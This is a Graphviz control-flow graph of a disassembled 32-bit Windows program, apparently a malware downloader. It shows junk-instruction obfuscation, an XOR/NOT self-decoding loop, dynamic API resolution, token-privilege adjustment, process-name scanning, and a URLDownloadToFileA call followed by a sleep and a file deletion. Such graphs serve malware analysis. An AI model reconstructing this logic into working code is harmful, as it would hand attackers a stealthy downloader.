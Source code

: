 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x0040131fxchgl_esi_ecx[label="start\nxchgl %esi, %ecx",fillcolor="orange",color="lightgrey"];
a0x00401321xchgl_esi_ecx[label="0x00401321\nxchgl %esi, %ecx"];
a0x00401323xchgl_eax_edi[label="0x00401323\nxchgl %eax, %edi"];
a0x00401324nop_[label="0x00401324\nnop "];
a0x00401325xchgl_eax_edi[label="0x00401325\nxchgl %eax, %edi"];
a0x00401326xchgl_eax_ecx[label="0x00401326\nxchgl %eax, %ecx"];
a0x00401327nop_[label="0x00401327\nnop "];
a0x00401328xchgl_eax_ecx[label="0x00401328\nxchgl %eax, %ecx"];
a0x00401329call_0x004013c2[label="0x00401329\ncall 0x004013c2"];
a0x004013c2jmp_GetTickCount_kernel32_dll[label="0x004013c2\njmp GetTickCount@kernel32.dll"];
GetTickCount_kernel32_dll[label="GetTickCount@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040132epushl_eax[label="0x0040132e\npushl %eax"];
a0x0040132fxchgl_ecx_ecx[label="0x0040132f\nxchgl %ecx, %ecx"];
a0x00401331popl_ecx[label="0x00401331\npopl %ecx"];
a0x00401332cmpl_0x17UINT8_ecx[label="0x00401332\ncmpl $0x17<UINT8>, %ecx"];
a0x00401335jb_0x0040133b[label="0x00401335\njb 0x0040133b"];
a0x00401337pushl_esi[label="0x00401337\npushl %esi"];
a0x00401338pushl_edi[label="0x00401338\npushl %edi"];
a0x00401339popl_edi[label="0x00401339\npopl %edi"];
a0x0040133apopl_esi[label="0x0040133a\npopl %esi"];
a0x0040133bpushl_eax[label="0x0040133b\npushl %eax"];
a0x0040133cnop_[label="0x0040133c\nnop "];
a0x0040133dpopl_eax[label="0x0040133d\npopl %eax"];
a0x0040133enop_[label="0x0040133e\nnop "];
a0x0040133fxchgl_eax_edi[label="0x0040133f\nxchgl %eax, %edi"];
a0x00401340xchgl_eax_edi[label="0x00401340\nxchgl %eax, %edi"];
a0x00401341xchgl_eax_ecx[label="0x00401341\nxchgl %eax, %ecx"];
a0x00401342nop_[label="0x00401342\nnop "];
a0x00401343xchgl_eax_ecx[label="0x00401343\nxchgl %eax, %ecx"];
a0x00401344pushl_0x40364eUINT32[label="0x00401344\npushl $0x40364e<UINT32>"];
a0x00401349pushl_0x403000UINT32[label="0x00401349\npushl $0x403000<UINT32>"];
a0x0040134ecall_0x004012e9[label="0x0040134e\ncall 0x004012e9"];
a0x004012e9pushl_ebp[label="0x004012e9\npushl %ebp"];
a0x004012eamovl_esp_ebp[label="0x004012ea\nmovl %esp, %ebp"];
a0x004012ecpushl_edi[label="0x004012ec\npushl %edi"];
a0x004012edpushl_edi[label="0x004012ed\npushl %edi"];
a0x004012eexorl_edi_edi[label="0x004012ee\nxorl %edi, %edi"];
a0x004012f0popl_edi[label="0x004012f0\npopl %edi"];
a0x004012f1movl_0x8ebp__edi[label="0x004012f1\nmovl 0x8(%ebp), %edi"];
a0x004012f4xchgl_ebx_esi[label="0x004012f4\nxchgl %ebx, %esi"];
a0x004012f6nop_[label="0x004012f6\nnop "];
a0x004012f7xchgl_ebx_esi[label="0x004012f7\nxchgl %ebx, %esi"];
a0x004012f9jmp_0x0040130f[label="0x004012f9\njmp 0x0040130f"];
a0x0040130fcmpl_0xcebp__edi[label="0x0040130f\ncmpl 0xc(%ebp), %edi"];
a0x00401312jne_0x004012fb[label="0x00401312\njne 0x004012fb"];
a0x004012fbpushl_esi[label="0x004012fb\npushl %esi"];
a0x004012fcnop_[label="0x004012fc\nnop "];
a0x004012fdpopl_esi[label="0x004012fd\npopl %esi"];
a0x004012fenop_[label="0x004012fe\nnop "];
a0x004012ffincl_edi[label="0x004012ff\nincl %edi"];
a0x00401300pushl_edi[label="0x00401300\npushl %edi"];
a0x00401301popl_edi[label="0x00401301\npopl %edi"];
a0x00401302xorb_0x11UINT8__1edi_[label="0x00401302\nxorb $0x11<UINT8>, -1(%edi)"];
a0x00401306pushl_ecx[label="0x00401306\npushl %ecx"];
a0x00401307nop_[label="0x00401307\nnop "];
a0x00401308popl_ecx[label="0x00401308\npopl %ecx"];
a0x00401309nop_[label="0x00401309\nnop "];
a0x0040130anotb__1edi_[label="0x0040130a\nnotb -1(%edi)"];
a0x0040130dpushl_esi[label="0x0040130d\npushl %esi"];
a0x0040130epopl_esi[label="0x0040130e\npopl %esi"];
a0x00401314pushl_edi[label="0x00401314\npushl %edi"];
a0x00401315nop_[label="0x00401315\nnop "];
a0x00401316popl_edi[label="0x00401316\npopl %edi"];
a0x00401317nop_[label="0x00401317\nnop "];
a0x00401318popl_edi[label="0x00401318\npopl %edi"];
a0x00401319leave_[label="0x00401319\nleave "];
a0x0040131aret_0x8UINT16[label="0x0040131a\nret $0x8<UINT16>"];
a0x00401353pushl_edi[label="0x00401353\npushl %edi"];
a0x00401354xchgl_edi_ebx[label="0x00401354\nxchgl %edi, %ebx"];
a0x00401356xchgl_edi_ebx[label="0x00401356\nxchgl %edi, %ebx"];
a0x00401358popl_edi[label="0x00401358\npopl %edi"];
a0x00401359xchgl_edi_edi[label="0x00401359\nxchgl %edi, %edi"];
a0x0040135bnop_[label="0x0040135b\nnop "];
a0x0040135cxchgl_edi_edi[label="0x0040135c\nxchgl %edi, %edi"];
a0x0040135epushl_0x4012e3UINT32[label="0x0040135e\npushl $0x4012e3<UINT32>"];
a0x00401363pushl_0x401000UINT32[label="0x00401363\npushl $0x401000<UINT32>"];
a0x00401368call_0x004012e9[label="0x00401368\ncall 0x004012e9"];
a0x0040136dpushl_edi[label="0x0040136d\npushl %edi"];
a0x0040136epushl_esi[label="0x0040136e\npushl %esi"];
a0x0040136fpopl_esi[label="0x0040136f\npopl %esi"];
a0x00401370popl_edi[label="0x00401370\npopl %edi"];
a0x00401371pushl_esi[label="0x00401371\npushl %esi"];
a0x00401372xorl_esi_esi[label="0x00401372\nxorl %esi, %esi"];
a0x00401374popl_esi[label="0x00401374\npopl %esi"];
a0x00401375pushl_edx[label="0x00401375\npushl %edx"];
a0x00401376xorl_edx_edx[label="0x00401376\nxorl %edx, %edx"];
a0x00401378popl_edx[label="0x00401378\npopl %edx"];
a0x00401379addl_0x33013UINT32_0x0040138a[label="0x00401379\naddl $0x33013<UINT32>, 0x0040138a"];
a0x00401383nop_[label="0x00401383\nnop "];
a0x00401384xchgl_esi_edi[label="0x00401384\nxchgl %esi, %edi"];
a0x00401386nop_[label="0x00401386\nnop "];
a0x00401387xchgl_esi_edi[label="0x00401387\nxchgl %esi, %edi"];
a0x00401389jmp_0x0040120d[label="0x00401389\njmp 0x0040120d"];
a0x0040120dxchgl_edx_edx[label="0x0040120d\nxchgl %edx, %edx"];
a0x0040120fxorl_eax_eax[label="0x0040120f\nxorl %eax, %eax"];
a0x00401211call_0x004013c2[label="0x00401211\ncall 0x004013c2"];
a0x00401216cmpl_0x3bUINT8_eax[label="0x00401216\ncmpl $0x3b<UINT8>, %eax"];
a0x00401219jb_0x00401224[label="0x00401219\njb 0x00401224"];
a0x0040121bnop_[label="0x0040121b\nnop "];
a0x0040121cmovb_0x55UINT8_0x0040310f[label="0x0040121c\nmovb $0x55<UINT8>, 0x0040310f"];
a0x00401223nop_[label="0x00401223\nnop "];
a0x00401224call_0x00401066[label="0x00401224\ncall 0x00401066"];
a0x00401066pushl_ebp[label="0x00401066\npushl %ebp"];
a0x00401067movl_esp_ebp[label="0x00401067\nmovl %esp, %ebp"];
a0x00401069addl_0xffffffd8UINT8_esp[label="0x00401069\naddl $0xffffffd8<UINT8>, %esp"];
a0x0040106cpushl_esi[label="0x0040106c\npushl %esi"];
a0x0040106dpushl_edi[label="0x0040106d\npushl %edi"];
a0x0040106epushl_0x4030abUINT32[label="0x0040106e\npushl $0x4030ab<UINT32>"];
a0x00401073pushl_0x403015UINT32[label="0x00401073\npushl $0x403015<UINT32>"];
a0x00401078call_0x00401004[label="0x00401078\ncall 0x00401004"];
a0x00401004pushl_ebp[label="0x00401004\npushl %ebp"];
a0x00401005movl_esp_ebp[label="0x00401005\nmovl %esp, %ebp"];
a0x00401007pushl_0x8ebp_[label="0x00401007\npushl 0x8(%ebp)"];
a0x0040100acall_0x004013c8[label="0x0040100a\ncall 0x004013c8"];
a0x004013c8jmp_LoadLibraryA_kernel32_dll[label="0x004013c8\njmp LoadLibraryA@kernel32.dll"];
LoadLibraryA_kernel32_dll[label="LoadLibraryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040100ftestl_eax_eax[label="0x0040100f\ntestl %eax, %eax"];
a0x00401011je_0x00401043[label="0x00401011\nje 0x00401043"];
a0x00401013movl_eax_ebx[label="0x00401013\nmovl %eax, %ebx"];
a0x00401015movl_0x8ebp__edi[label="0x00401015\nmovl 0x8(%ebp), %edi"];
a0x00401018movl_0xcebp__esi[label="0x00401018\nmovl 0xc(%ebp), %esi"];
a0x0040101bcld_[label="0x0040101b\ncld "];
a0x0040101cxorl_eax_eax[label="0x0040101c\nxorl %eax, %eax"];
a0x0040101eorl_0xffffffffUINT8_ecx[label="0x0040101e\norl $0xffffffff<UINT8>, %ecx"];
a0x00401021repnz_scasb_es_edi__al[label="0x00401021\nrepnz scasb %es:(%edi), %al"];
a0x00401023cmpb_0x0UINT8_edi_[label="0x00401023\ncmpb $0x0<UINT8>, (%edi)"];
a0x00401026je_0x0040103e[label="0x00401026\nje 0x0040103e"];
a0x00401028pushl_edi[label="0x00401028\npushl %edi"];
a0x00401029pushl_ebx[label="0x00401029\npushl %ebx"];
a0x0040102acall_0x004013bc[label="0x0040102a\ncall 0x004013bc"];
a0x004013bcjmp_GetProcAddress_kernel32_dll[label="0x004013bc\njmp GetProcAddress@kernel32.dll"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040102forl_eax_eax[label="0x0040102f\norl %eax, %eax"];
a0x00401031jne_0x00401037[label="0x00401031\njne 0x00401037"];
a0x00401037movl_eax_esi_[label="0x00401037\nmovl %eax, (%esi)"];
a0x00401039addl_0x4UINT8_esi[label="0x00401039\naddl $0x4<UINT8>, %esi"];
a0x0040103cjmp_0x0040101b[label="0x0040103c\njmp 0x0040101b"];
a0x0040103emovl_0x1UINT32_eax[label="0x0040103e\nmovl $0x1<UINT32>, %eax"];
a0x00401043leave_[label="0x00401043\nleave "];
a0x00401044ret_0x8UINT16[label="0x00401044\nret $0x8<UINT16>"];
a0x0040107dpushl_0x4030bfUINT32[label="0x0040107d\npushl $0x4030bf<UINT32>"];
a0x00401082pushl_0x40307eUINT32[label="0x00401082\npushl $0x40307e<UINT32>"];
a0x00401087call_0x00401004[label="0x00401087\ncall 0x00401004"];
a0x00401033leave_[label="0x00401033\nleave "];
a0x00401034ret_0x8UINT16[label="0x00401034\nret $0x8<UINT16>"];
a0x0040108ccmpl_0x0UINT8_0x004030c3[label="0x0040108c\ncmpl $0x0<UINT8>, 0x004030c3"];
a0x00401093je_0x004010a3[label="0x00401093\nje 0x004010a3"];
a0x004010a3cmpl_0x0UINT8_0x004030ab[label="0x004010a3\ncmpl $0x0<UINT8>, 0x004030ab"];
a0x004010aaje_0x004010d0[label="0x004010aa\nje 0x004010d0"];
a0x004010accmpl_0x0UINT8_0x004030af[label="0x004010ac\ncmpl $0x0<UINT8>, 0x004030af"];
a0x004010b3je_0x004010d0[label="0x004010b3\nje 0x004010d0"];
a0x004010b5cmpl_0x0UINT8_0x004030b3[label="0x004010b5\ncmpl $0x0<UINT8>, 0x004030b3"];
a0x004010bcje_0x004010d0[label="0x004010bc\nje 0x004010d0"];
a0x004010becmpl_0x0UINT8_0x004030b7[label="0x004010be\ncmpl $0x0<UINT8>, 0x004030b7"];
a0x004010c5je_0x004010d0[label="0x004010c5\nje 0x004010d0"];
a0x004010c7cmpl_0x0UINT8_0x004030bb[label="0x004010c7\ncmpl $0x0<UINT8>, 0x004030bb"];
a0x004010cejne_0x004010d4[label="0x004010ce\njne 0x004010d4"];
a0x004010d4pushl_0x8UINT8[label="0x004010d4\npushl $0x8<UINT8>"];
a0x004010d6leal__40ebp__eax[label="0x004010d6\nleal -40(%ebp), %eax"];
a0x004010d9pushl_eax[label="0x004010d9\npushl %eax"];
a0x004010dacall_0x00401047[label="0x004010da\ncall 0x00401047"];
a0x00401047pushl_ebp[label="0x00401047\npushl %ebp"];
a0x00401048movl_esp_ebp[label="0x00401048\nmovl %esp, %ebp"];
a0x0040104apushl_edi[label="0x0040104a\npushl %edi"];
a0x0040104bcld_[label="0x0040104b\ncld "];
a0x0040104cmovl_0x8ebp__edi[label="0x0040104c\nmovl 0x8(%ebp), %edi"];
a0x0040104fmovl_0xcebp__ecx[label="0x0040104f\nmovl 0xc(%ebp), %ecx"];
a0x00401052shrl_0x2UINT8_ecx[label="0x00401052\nshrl $0x2<UINT8>, %ecx"];
a0x00401055xorl_eax_eax[label="0x00401055\nxorl %eax, %eax"];
a0x00401057repz_stosl_eax_es_edi_[label="0x00401057\nrepz stosl %eax, %es:(%edi)"];
a0x00401059movl_0xcebp__ecx[label="0x00401059\nmovl 0xc(%ebp), %ecx"];
a0x0040105candl_0x3UINT8_ecx[label="0x0040105c\nandl $0x3<UINT8>, %ecx"];
a0x0040105frepz_stosb_al_es_edi_[label="0x0040105f\nrepz stosb %al, %es:(%edi)"];
a0x00401061popl_edi[label="0x00401061\npopl %edi"];
a0x00401062leave_[label="0x00401062\nleave "];
a0x00401063ret_0x8UINT16[label="0x00401063\nret $0x8<UINT16>"];
a0x004010dfpushl_0x2UINT8[label="0x004010df\npushl $0x2<UINT8>"];
a0x004010e1pushl_0x8UINT8[label="0x004010e1\npushl $0x8<UINT8>"];
a0x004010e3leal__40ebp__eax[label="0x004010e3\nleal -40(%ebp), %eax"];
a0x004010e6pushl_eax[label="0x004010e6\npushl %eax"];
a0x004010e7call_0x004030af[label="0x004010e7\ncall 0x004030af"];
InitializeAcl_advapi32_dll[label="InitializeAcl@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004010edcall_0x004013b0[label="0x004010ed\ncall 0x004013b0"];
a0x004013b0jmp_GetCurrentProcess_kernel32_dll[label="0x004013b0\njmp GetCurrentProcess@kernel32.dll"];
GetCurrentProcess_kernel32_dll[label="GetCurrentProcess@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004010f2pushl_eax[label="0x004010f2\npushl %eax"];
a0x004010f3xchgl_eax_edx[label="0x004010f3\nxchgl %eax, %edx"];
a0x004010f4pushl_0x0UINT8[label="0x004010f4\npushl $0x0<UINT8>"];
a0x004010f6leal__40ebp__eax[label="0x004010f6\nleal -40(%ebp), %eax"];
a0x004010f9pushl_eax[label="0x004010f9\npushl %eax"];
a0x004010fapushl_0x0UINT8[label="0x004010fa\npushl $0x0<UINT8>"];
a0x004010fcpushl_0x0UINT8[label="0x004010fc\npushl $0x0<UINT8>"];
a0x004010fepushl_0x4UINT8[label="0x004010fe\npushl $0x4<UINT8>"];
a0x00401100pushl_0x6UINT8[label="0x00401100\npushl $0x6<UINT8>"];
a0x00401102pushl_edx[label="0x00401102\npushl %edx"];
a0x00401103call_0x004030bb[label="0x00401103\ncall 0x004030bb"];
SetSecurityInfo_advapi32_dll[label="SetSecurityInfo@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401109popl_edx[label="0x00401109\npopl %edx"];
a0x0040110aleal__4ebp__eax[label="0x0040110a\nleal -4(%ebp), %eax"];
a0x0040110dpushl_eax[label="0x0040110d\npushl %eax"];
a0x0040110epushl_0x28UINT8[label="0x0040110e\npushl $0x28<UINT8>"];
a0x00401110pushl_edx[label="0x00401110\npushl %edx"];
a0x00401111call_0x004030b7[label="0x00401111\ncall 0x004030b7"];
OpenProcessToken_advapi32_dll[label="OpenProcessToken@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401117leal__12ebp__eax[label="0x00401117\nleal -12(%ebp), %eax"];
a0x0040111apushl_eax[label="0x0040111a\npushl %eax"];
a0x0040111bpushl_0x403004UINT32[label="0x0040111b\npushl $0x403004<UINT32>"];
a0x00401120pushl_0x0UINT8[label="0x00401120\npushl $0x0<UINT8>"];
a0x00401122call_0x004030b3[label="0x00401122\ncall 0x004030b3"];
LookupPrivilegeValueA_advapi32_dll[label="LookupPrivilegeValueA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401128leal__12ebp__esi[label="0x00401128\nleal -12(%ebp), %esi"];
a0x0040112bleal__24ebp__edi[label="0x0040112b\nleal -24(%ebp), %edi"];
a0x0040112emovl_0x8UINT32_ecx[label="0x0040112e\nmovl $0x8<UINT32>, %ecx"];
a0x00401133repz_movsb_ds_esi__es_edi_[label="0x00401133\nrepz movsb %ds:(%esi), %es:(%edi)"];
a0x00401135movl_0x1UINT32__28ebp_[label="0x00401135\nmovl $0x1<UINT32>, -28(%ebp)"];
a0x0040113cmovl_0x2UINT32__16ebp_[label="0x0040113c\nmovl $0x2<UINT32>, -16(%ebp)"];
a0x00401143leal__32ebp__eax[label="0x00401143\nleal -32(%ebp), %eax"];
a0x00401146pushl_eax[label="0x00401146\npushl %eax"];
a0x00401147leal__28ebp__eax[label="0x00401147\nleal -28(%ebp), %eax"];
a0x0040114apushl_eax[label="0x0040114a\npushl %eax"];
a0x0040114bpushl_0x10UINT8[label="0x0040114b\npushl $0x10<UINT8>"];
a0x0040114dpushl_eax[label="0x0040114d\npushl %eax"];
a0x0040114epushl_0x0UINT8[label="0x0040114e\npushl $0x0<UINT8>"];
a0x00401150pushl__4ebp_[label="0x00401150\npushl -4(%ebp)"];
a0x00401153call_0x004030ab[label="0x00401153\ncall 0x004030ab"];
AdjustTokenPrivileges_advapi32_dll[label="AdjustTokenPrivileges@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401159popl_edi[label="0x00401159\npopl %edi"];
a0x0040115apopl_esi[label="0x0040115a\npopl %esi"];
a0x0040115bleave_[label="0x0040115b\nleave "];
a0x0040115cret[label="0x0040115c\nret"];
a0x00401229call_0x00401182[label="0x00401229\ncall 0x00401182"];
a0x00401182pushl_ebp[label="0x00401182\npushl %ebp"];
a0x00401183movl_esp_ebp[label="0x00401183\nmovl %esp, %ebp"];
a0x00401185addl_0xfffffed4UINT32_esp[label="0x00401185\naddl $0xfffffed4<UINT32>, %esp"];
a0x0040118bpushl_edi[label="0x0040118b\npushl %edi"];
a0x0040118cmovl_0x128UINT32__296ebp_[label="0x0040118c\nmovl $0x128<UINT32>, -296(%ebp)"];
a0x00401196pushl_0x0UINT8[label="0x00401196\npushl $0x0<UINT8>"];
a0x00401198pushl_0x2UINT8[label="0x00401198\npushl $0x2<UINT8>"];
a0x0040119acall_0x0040139e[label="0x0040119a\ncall 0x0040139e"];
a0x0040139ejmp_CreateToolhelp32Snapshot_kernel32_dll[label="0x0040139e\njmp CreateToolhelp32Snapshot@kernel32.dll"];
CreateToolhelp32Snapshot_kernel32_dll[label="CreateToolhelp32Snapshot@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040119fmovl_eax__300ebp_[label="0x0040119f\nmovl %eax, -300(%ebp)"];
a0x004011a5leal__296ebp__eax[label="0x004011a5\nleal -296(%ebp), %eax"];
a0x004011abpushl_eax[label="0x004011ab\npushl %eax"];
a0x004011acpushl__300ebp_[label="0x004011ac\npushl -300(%ebp)"];
a0x004011b2call_0x004013d4[label="0x004011b2\ncall 0x004013d4"];
a0x004013d4jmp_Process32First_kernel32_dll[label="0x004013d4\njmp Process32First@kernel32.dll"];
Process32First_kernel32_dll[label="Process32First@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011b7orl_eax_eax[label="0x004011b7\norl %eax, %eax"];
a0x004011b9je_0x004011fd[label="0x004011b9\nje 0x004011fd"];
a0x004011bbmovl_0x403208UINT32_edi[label="0x004011bb\nmovl $0x403208<UINT32>, %edi"];
a0x004011c0pushl_edi[label="0x004011c0\npushl %edi"];
a0x004011c1leal__260ebp__eax[label="0x004011c1\nleal -260(%ebp), %eax"];
a0x004011c7pushl_eax[label="0x004011c7\npushl %eax"];
a0x004011c8call_0x004013ec[label="0x004011c8\ncall 0x004013ec"];
a0x004013ecjmp_lstrcmpiA_kernel32_dll[label="0x004013ec\njmp lstrcmpiA@kernel32.dll"];
lstrcmpiA_kernel32_dll[label="lstrcmpiA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011cdorl_eax_eax[label="0x004011cd\norl %eax, %eax"];
a0x004011cfjne_0x004011dc[label="0x004011cf\njne 0x004011dc"];
a0x004011dccld_[label="0x004011dc\ncld "];
a0x004011ddxorl_eax_eax[label="0x004011dd\nxorl %eax, %eax"];
a0x004011dforl_0xffffffffUINT8_ecx[label="0x004011df\norl $0xffffffff<UINT8>, %ecx"];
a0x004011e2repnz_scasb_es_edi__al[label="0x004011e2\nrepnz scasb %es:(%edi), %al"];
a0x004011e4cmpb_0x0UINT8_edi_[label="0x004011e4\ncmpb $0x0<UINT8>, (%edi)"];
a0x004011e7jne_0x004011c0[label="0x004011e7\njne 0x004011c0"];
a0x004011e9leal__296ebp__eax[label="0x004011e9\nleal -296(%ebp), %eax"];
a0x004011efpushl_eax[label="0x004011ef\npushl %eax"];
a0x004011f0pushl__300ebp_[label="0x004011f0\npushl -300(%ebp)"];
a0x004011f6call_0x004013da[label="0x004011f6\ncall 0x004013da"];
a0x004013dajmp_Process32Next_kernel32_dll[label="0x004013da\njmp Process32Next@kernel32.dll"];
Process32Next_kernel32_dll[label="Process32Next@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011fbjmp_0x004011b7[label="0x004011fb\njmp 0x004011b7"];
a0x004011fdpushl__300ebp_[label="0x004011fd\npushl -300(%ebp)"];
a0x00401203call_0x00401398[label="0x00401203\ncall 0x00401398"];
a0x00401398jmp_CloseHandle_kernel32_dll[label="0x00401398\njmp CloseHandle@kernel32.dll"];
CloseHandle_kernel32_dll[label="CloseHandle@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401208xorl_eax_eax[label="0x00401208\nxorl %eax, %eax"];
a0x0040120apopl_edi[label="0x0040120a\npopl %edi"];
a0x0040120bleave_[label="0x0040120b\nleave "];
a0x0040120cret[label="0x0040120c\nret"];
a0x0040122emovl_0x00403668_eax[label="0x0040122e\nmovl 0x00403668, %eax"];
a0x00401233pushl_0x4030f3UINT32[label="0x00401233\npushl $0x4030f3<UINT32>"];
a0x00401238call_0x004013c8[label="0x00401238\ncall 0x004013c8"];
a0x0040123dorl_eax_eax[label="0x0040123d\norl %eax, %eax"];
a0x0040123fje_0x0040129a[label="0x0040123f\nje 0x0040129a"];
a0x00401241pushl_0x40310fUINT32[label="0x00401241\npushl $0x40310f<UINT32>"];
a0x00401246pushl_eax[label="0x00401246\npushl %eax"];
a0x00401247call_0x004013bc[label="0x00401247\ncall 0x004013bc"];
a0x0040124corl_eax_eax[label="0x0040124c\norl %eax, %eax"];
a0x0040124eje_0x0040129a[label="0x0040124e\nje 0x0040129a"];
a0x00401250movl_eax_0x00403664[label="0x00401250\nmovl %eax, 0x00403664"];
a0x00401255movl_0x4031c3UINT32_eax[label="0x00401255\nmovl $0x4031c3<UINT32>, %eax"];
a0x0040125amovl_0x4031f6UINT32_ebx[label="0x0040125a\nmovl $0x4031f6<UINT32>, %ebx"];
a0x0040125fmovl_0x1UINT32_ecx[label="0x0040125f\nmovl $0x1<UINT32>, %ecx"];
a0x00401264movb_0x31UINT8_0x004031f4[label="0x00401264\nmovb $0x31<UINT8>, 0x004031f4"];
a0x0040126bmovb_0x31UINT8_0x00403202[label="0x0040126b\nmovb $0x31<UINT8>, 0x00403202"];
a0x00401272call_0x004012a8[label="0x00401272\ncall 0x004012a8"];
a0x004012a8pushl_ebx[label="0x004012a8\npushl %ebx"];
a0x004012a9pushl_eax[label="0x004012a9\npushl %eax"];
a0x004012aapushl_ecx[label="0x004012aa\npushl %ecx"];
a0x004012abxchgl_ecx_ecx[label="0x004012ab\nxchgl %ecx, %ecx"];
a0x004012adxchgl_ebx_ebx[label="0x004012ad\nxchgl %ebx, %ebx"];
a0x004012afpushl_0x0UINT8[label="0x004012af\npushl $0x0<UINT8>"];
a0x004012b1pushl_0x0UINT8[label="0x004012b1\npushl $0x0<UINT8>"];
a0x004012b3pushl_ebx[label="0x004012b3\npushl %ebx"];
a0x004012b4pushl_eax[label="0x004012b4\npushl %eax"];
a0x004012b5pushl_0x0UINT8[label="0x004012b5\npushl $0x0<UINT8>"];
a0x004012b7call_0x00403664[label="0x004012b7\ncall 0x00403664"];
URLDownloadToFileA_urlmon_dll[label="URLDownloadToFileA@urlmon.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012bdnop_[label="0x004012bd\nnop "];
a0x004012benop_[label="0x004012be\nnop "];
a0x004012bfnop_[label="0x004012bf\nnop "];
a0x004012c0popl_ecx[label="0x004012c0\npopl %ecx"];
a0x004012c1orl_ecx_ecx[label="0x004012c1\norl %ecx, %ecx"];
a0x004012c3je_0x004012ce[label="0x004012c3\nje 0x004012ce"];
a0x004012cepushl_0x2122UINT32[label="0x004012ce\npushl $0x2122<UINT32>"];
a0x004012d3call_0x004013e0[label="0x004012d3\ncall 0x004013e0"];
a0x004013e0jmp_Sleep_kernel32_dll[label="0x004013e0\njmp Sleep@kernel32.dll"];
Sleep_kernel32_dll[label="Sleep@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012d8pushl_ebx[label="0x004012d8\npushl %ebx"];
a0x004012d9call_0x004013a4[label="0x004012d9\ncall 0x004013a4"];
a0x004013a4jmp_DeleteFileA_kernel32_dll[label="0x004013a4\njmp DeleteFileA@kernel32.dll"];
DeleteFileA_kernel32_dll[label="DeleteFileA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012denop_[label="0x004012de\nnop "];
a0x004012dfnop_[label="0x004012df\nnop "];
a0x004012e0popl_eax[label="0x004012e0\npopl %eax"];
a0x004012e1popl_ebx[label="0x004012e1\npopl %ebx"];
a0x004012e2ret[label="0x004012e2\nret"];
a0x00000000addb_al_eax_[label="0x00000000\naddb %al, (%eax)"];
a0x00000002addb_al_eax_[label="0x00000002\naddb %al, (%eax)"];
a0x00000004addb_al_eax_[label="0x00000004\naddb %al, (%eax)"];
a0x00000006addb_al_eax_[label="0x00000006\naddb %al, (%eax)"];
a0x00000008addb_al_eax_[label="0x00000008\naddb %al, (%eax)"];
a0x0000000aaddb_al_eax_[label="0x0000000a\naddb %al, (%eax)"];
a0x0000000caddb_al_eax_[label="0x0000000c\naddb %al, (%eax)"];
a0x0000000eaddb_al_eax_[label="0x0000000e\naddb %al, (%eax)"];
a0x00000010addb_al_eax_[label="0x00000010\naddb %al, (%eax)"];
a0x00000012addb_al_eax_[label="0x00000012\naddb %al, (%eax)"];
a0x00000014addb_al_eax_[label="0x00000014\naddb %al, (%eax)"];
a0x00000016addb_al_eax_[label="0x00000016\naddb %al, (%eax)"];
a0x00000018addb_al_eax_[label="0x00000018\naddb %al, (%eax)"];
a0x0000001aaddb_al_eax_[label="0x0000001a\naddb %al, (%eax)"];
a0x0000001caddb_al_eax_[label="0x0000001c\naddb %al, (%eax)"];
a0x0000001eaddb_al_eax_[label="0x0000001e\naddb %al, (%eax)"];
a0x00000020addb_al_eax_[label="0x00000020\naddb %al, (%eax)"];
a0x00000022addb_al_eax_[label="0x00000022\naddb %al, (%eax)"];
a0x00000024addb_al_eax_[label="0x00000024\naddb %al, (%eax)"];
a0x00000026addb_al_eax_[label="0x00000026\naddb %al, (%eax)"];
a0x00000028addb_al_eax_[label="0x00000028\naddb %al, (%eax)"];
a0x0000002aaddb_al_eax_[label="0x0000002a\naddb %al, (%eax)"];
a0x0000002caddb_al_eax_[label="0x0000002c\naddb %al, (%eax)"];
a0x0000002eaddb_al_eax_[label="0x0000002e\naddb %al, (%eax)"];
